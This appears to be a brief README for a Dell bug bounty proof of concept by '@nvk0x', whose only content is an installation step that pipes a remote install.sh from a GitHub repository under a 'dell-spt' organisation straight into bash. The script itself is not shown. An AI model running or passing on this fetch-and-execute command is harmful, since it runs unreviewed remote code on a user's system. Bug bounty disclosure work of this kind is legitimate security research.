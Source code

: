 # Dell Bugbounty POC by @nvk0x


# Installation steps

```
curl https://raw.githubusercontent.com/dell-spt/spt-load-step-pipeline/refs/heads/main/install.sh | bash
```
